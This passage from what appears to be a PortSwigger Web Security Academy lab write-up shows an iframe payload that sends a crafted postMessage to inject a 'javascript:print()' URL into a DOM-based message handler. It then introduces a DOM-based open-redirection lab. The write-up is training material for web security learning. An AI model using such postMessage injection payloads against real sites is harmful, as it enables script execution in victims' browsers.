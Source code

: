 
And finally change it to print the page instead:

```
<iframe src="https://0ade0059044fd24c81bb9a8f008100a0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")' style="width:100%;height:100%">
```

# DOM-based open redirection

This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/open-redirection



![img](images/DOM-based%20open%20redirection/1.png)

---------------------------------------------
